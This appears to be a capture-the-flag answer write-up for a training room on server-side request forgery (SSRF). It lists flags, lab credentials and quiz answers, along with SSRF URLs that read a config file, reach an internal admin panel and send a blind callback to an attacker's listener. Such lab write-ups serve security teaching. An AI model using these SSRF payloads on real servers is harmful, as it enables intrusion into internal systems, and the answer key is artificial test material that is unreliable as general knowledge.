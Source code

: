 # SSRF 
## Task 1  Introduction
+ Setup `/etc/hosts` add domain `hrms.thm`

## Task 2  Anatomy of SSRF Attack
+ What is the average weighted impact for the SSRF vulnerability as per the OWASP Top 10?`6.72`

## Task 3  Types of SSRF - Basic
+ What is the username for the HRMS login panel?`hrmsadmin`
+ What is the password for the HRMS login panel?`hrmsadmin@123`
+ What is the admin URL as per the config file? `http://192.168.2.10/admin.php`
+ What is the flag value after successfully logging in to the HRMS web panel? `THM_{1NiT_S$rF}`
```php
// Access URL http://hrms.thm/?url=localhost/config
<?php
$adminURL = "http://192.168.2.10/admin.php";
$username = "hrmsadmin";
$password = "hrmsadmin@123";
```

## Task 4  Types of SSRF - Basic (Continued)
+ Is accessing non-routable addresses possible if a server is vulnerable to SSRF (yea/nay)?`yea`
+ What is the flag value after accessing the admin panel?`THM_{B@$ic_s$rF}`
```php
// http://hrms.thm/url.php?id=192.168.2.10/admin.php
```

## Task 5  Types of SSRF - Blind
+ Does Out-of-band SSRF always include a technique in which an attacker always receives direct responses from the server (yea/nay)?`nay`
+ What is the value for Virtual Directory Support on the PHP server per the logged data?`disabled`
+ What is the value of the PHP Extension Build on the server?`API20190902,NTS`
+ Which type of SSRF doesn't give us a direct response or feedback?`blind`


```bash
hengkisirait: SSRF $ python server.py 
# access URL http://hrms.thm/profile.php?url=http://10.4.37.160:8080
```

## Task 6  A Classic Example - Crashing the Server
+ What is the flag value after loading a big image exceeding 100KB? `THM_{$$rF_Cr@$h3D}`

## Task 7  Remedial Measures
+ Which of the following is the suggested approach while handling trusted URLs? Write the correct option only. `b`
a) Filter out disallowed URLs
b) Maintaining an allowlist of trusted URLs
+ Since SSRF mainly exploits server-side requests, is it optional to sanitise the input URLs or parameters (yea/nay)?`nay`